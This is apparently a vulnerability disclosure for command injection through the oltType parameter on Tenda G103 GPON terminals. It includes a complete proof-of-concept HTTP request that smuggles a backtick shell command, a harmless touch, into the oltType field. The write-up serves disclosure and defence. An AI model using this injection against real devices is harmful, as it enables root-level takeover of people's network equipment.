



# Tenda G103 Command Injection Vulnerability in `oltType` Parameter of `action_set_net_settings` (gpon.lua)

## Overview

A command injection vulnerability exists in the `action_set_net_settings` function within the `gpon.lua` file of Tenda G103 GPON optical network terminals. This vulnerability is triggered when the `modeOption` parameter is set to `2` or `3` (manual VLAN mode), allowing the `oltType` parameter to be passed to system commands without proper sanitization. Authenticated attackers can exploit this to execute arbitrary system commands with root privileges, leading to full device compromise.

The environment can be simulated using FirmAE:


## Details


*   **Vendor**: Tenda

*   **Product**: Tenda G103 GPON Optical Network Terminal

*   **Firmware Version**: US\_G103V1.0la\_V1.0.0.5\_TDC01

*   **Firmware Download**: [https://tenda.com.cn/material/show/2615](https://tenda.com.cn/material/show/2615)

*   **Affected Component**: `gpon.lua` (LuCI controller)

*   **Affected Function**: `action_set_net_settings`

*   **Affected Parameter**: `oltType` (requires `modeOption=2` or `3`)

*   **Vulnerability Type**: Command Injection

*   **Impact**: Arbitrary command execution, OLT configuration tampering, network access control bypass, or complete device takeover

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

## Vulnerability Analysis

The `action_set_net_settings` function processes the `oltType` parameter, which specifies the type of OLT (Optical Line Terminal) in GPON networks. A critical flaw exists: when `modeOption` is set to `2` or `3` (manual VLAN mode), `oltType` is directly concatenated into `fw_setenv` system commands without sanitization.

Key vulnerable code in `gpon.lua`:





When `modeOption` is `2` or `3`, attackers can inject arbitrary commands by embedding shell metacharacters (e.g., backticks `` ` ``, semicolons `;`, or `&&`) in `oltType`. These characters are not filtered, allowing the injected payload to be executed by the system shell.

## Proof of Concept (PoC)

### Execute `touch` to Create a Test File


```
POST /cgi-bin/luci/;stok=ffa53ec8dc7db8ad4842c6e91589c8e9/admin/gpon/set-net-settings HTTP/1.1
Host: 192.168.0.1
Content-Length: 101
X-Requested-With: XMLHttpRequest
Accept-Language: en-US,en;q=0.9
Accept: \*/\*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Origin: http://192.168.0.1
Referer: http://192.168.0.1/cgi-bin/luci/;stok=ffa53ec8dc7db8ad4842c6e91589c8e9/admin/gpon
Accept-Encoding: gzip, deflate, br
Cookie: isLogin=true; sysauth=1db9fe0d814594958dc79f73fa79196d; sysauth=; repeatTimes=2; isLogin=true
Connection: keep-alive

&authSerialNo=&modeOption=3&usVlanId=0&usVlanPriority=0&oltType=1`touch$IFS/tmp/oltType.txt`&dhcpen=0
```

#### Execution Steps:


1.  Send the POST request above with `modeOption=3` (to trigger manual VLAN mode) and a valid `stok` (session token).

2.  Access the device (via CLI, telnet, or another injected command) and verify the existence of `/tmp/oltType.txt`.

#### Expected Result:

The file `/tmp/oltType.txt` is created, confirming successful execution of the injected `touch` command.






